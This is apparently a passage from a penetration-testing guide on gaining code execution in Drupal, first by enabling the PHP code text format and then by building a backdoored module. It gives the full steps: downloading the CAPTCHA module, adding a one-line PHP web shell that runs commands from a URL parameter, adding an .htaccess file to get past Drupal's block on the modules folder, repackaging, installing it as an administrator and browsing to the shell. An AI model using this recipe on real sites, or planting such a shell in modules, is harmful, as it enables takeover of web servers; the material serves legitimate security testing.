 1. Download the most recent version of the module from the Drupal website.
   1. wget https://ftp.drupal.org/files/projects/php-8.x-1.1.tar.gz
2. Once downloaded go to **`Administration`** > **`Reports`** > **`Available updates`**.
3. Click on **`Browse`**`,` select the file from the directory we downloaded it to, and then click **`Install`**.
4. Once the module is installed, we can click on **`Content`** and **create a new basic page**, similar to how we did in the Drupal 7 example. Again, be sure to **select `PHP code` from the `Text format` dropdown**.

## Backdoored Module

{% hint style="warning" %}
In current versions it's no longer possible to install plugins by only having access to the web after the default installation.
{% endhint %}

A backdoored module can be created by **adding a shell to an existing module**. Modules can be found on the drupal.org website. Let's pick a module such as [CAPTCHA](https://www.drupal.org/project/captcha). Scroll down and copy the link for the tar.gz [archive](https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz).

* Download the archive and extract its contents.

```
wget --no-check-certificate  https://ftp.drupal.org/files/projects/captcha-8.x-1.2.tar.gz
tar xvf captcha-8.x-1.2.tar.gz
```

* Create a **PHP web shell** with the contents:

```php
<?php
system($_GET["cmd"]);
?>
```

* Next, we need to create a **`.htaccess`** file to give ourselves access to the folder. This is necessary as Drupal denies direct access to the **`/modules`** folder.

```html
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
</IfModule>
```

* The configuration above will apply rules for the / folder when we request a file in /modules. Copy both of these files to the captcha folder and create an archive.

```bash
mv shell.php .htaccess captcha
tar cvf captcha.tar.gz captcha/
```

* Assuming we have **administrative access** to the website, click on **`Manage`** and then **`Extend`** on the sidebar. Next, click on the **`+ Install new module`** button, and we will be taken to the install page, such as `http://drupal-site.local/admin/modules/install` Browse to the backdoored Captcha archive and click **`Install`**.
* Once the installation succeeds, browse to **`/modules/captcha/shell.php`** to execute commands.
